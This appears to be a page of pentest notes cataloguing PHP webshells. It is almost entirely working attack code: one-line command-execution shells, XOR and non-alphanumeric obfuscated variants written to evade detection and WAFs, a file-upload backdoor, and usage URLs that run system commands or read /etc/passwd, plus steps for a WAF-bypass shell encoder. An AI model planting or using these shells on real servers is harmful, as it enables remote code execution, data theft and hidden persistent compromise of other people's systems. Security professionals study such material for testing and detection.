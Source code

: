 ```yaml
---
description: Several list of simple and obfuscate PHP shell
---
```


# Simple PHP Webshell

### Simple PHP Webshell

#### Simple HTTP Requests GET Method Shell

```
<?=`$_GET[0]`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
```

#### Simple HTTP Requests POST Method Shell

```
<?=`$_POST[0]`?>

[*] Usage: curl -X POST http://target.com/path/to/shell.php -d "0=command"
```

#### Support GET and POST Requests Method

```
<?=`{$_REQUEST['_']}`?>

[*] Usage:
 - http://target.com/path/to/shell.php?_=command
 - curl -X POST http://target.com/path/to/shell.php -d "_=command"
```

## Simple Obfuscated PHP Web Shell

#### Obfuscated PHP Web shell Example

```
<?=$_="";$_="'";$_=($_^chr(4*4*(5+5)-40)).($_^chr(47+ord(1==1))).($_^chr(ord('_')+3)).($_^chr(((10*10)+(5*3))));$_=${$_}['_'^'o'];echo`$_`?>

[*] Usage: http://target.com/path/to/shell.php?0=command
[*] Note: This is obfuscation of <?=`$_GET[0]`?>
```

#### Non-alphanumeric obfuscation PHP Web Shell

```php
<?php $_="{"; $_=($_^"<").($_^">;").($_^"/"); ?> <?=${'_'.$_}["_"](${'_'.$_}["__"]);?>

[*] Usage: http://target.com/path/to/shell.php?_=function&__=argument
[*] E.g.: http://target.com/path/to/shell.php?_=system&__=ls
```

#### Another Example Obfuscation of Simple PHP Webshell

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?php $_=${'_'.('{{{' ^ '<>/')};$_[0]($_[1]($_[2])); ?>
<?php $_=${'_'.('{'^'<').('{'^'>;').('{'^'/')};$_[0]($_[1]($_[2])); ?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.:
    - http://target.com/path/to/shell.php?0=var_dump&1=scandir&2=.
    - http://target.com/path/to/shell.php?0=print_r&1=file_get_contents&2=/etc/passwd
```

#### Without Space Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]);?>

[*] Usage: http://target.com/path/to/shell.php?0=function&1=argument
[*] E.g.: http://target.com/path/to/shell.php?0=system&1=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_[0]($_[1]($_[2]));?>

[*] Usage: http://target.com/path/to/shell.php?0=function1&1=function2&2=argument
[*] E.g.: http://target.com/path/to/shell.php?0=print_r&1=glob&2=*
```

#### Without Space and Non-alphanumeric Obfuscation PHP Web Shell

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']);?>

[*] Usage: http://target.com/path/to/shell.php?__=function&___=argument
[*] E.g.: http://target.com/path/to/shell.php?__=system&___=ls
```

**in case if some functions like system,exec,etc. are disabled we can use var\_dump or print\_r for print output some function:**

```php
<?=$_=${'_'.('{{{'^'<>/')};$_['__']($_['___']($_['____']));?>

[*] Usage: http://target.com/path/to/shell.php?__=function1&___=function2&____=argument
[*] E.g.: http://target.com/path/to/shell.php?__=var_dump&___=scandir&____=/
```

### PHP Uploader

{% code overflow="wrap" %}
```php
<?php echo php_uname();echo '<br>';
echo '<br>';echo '<form action="" method="post" enctype="multipart/form-data" name="uploader" id="uploader">';echo '<input type="file" name="file" size="50"><input name="_upl" type="submit" id="_upl" value="Upload"></form>';if( $_POST['_upl'] == "Upload" ) {if(@copy($_FILES['file']['tmp_name'], $_FILES['file']['name'])) { echo '<b>Uploaded</b><br><br>'; }else { echo '<b>Upload Failed !!!</b><br><br>'; }}?>
```
{% endcode %}

### XOR Shell

Encoder PHP webshell to bypass WAF using XOR operations.

```bash
git clone https://github.com/GgBoom-993/xorshell
cd xorshell/
python3 xorshell.py -m GET -p cmd -o asuka.php

### access
http://localhost:8000/asuka.php?cmd=system('id');
```

### Reference

* [https://github.com/bayufedra/Tiny-PHP-Webshell](https://github.com/bayufedra/Tiny-PHP-Webshell)
* [https://github.com/lcatro/PHP-WebShell-Bypass-WAF](https://github.com/lcatro/PHP-WebShell-Bypass-WAF)
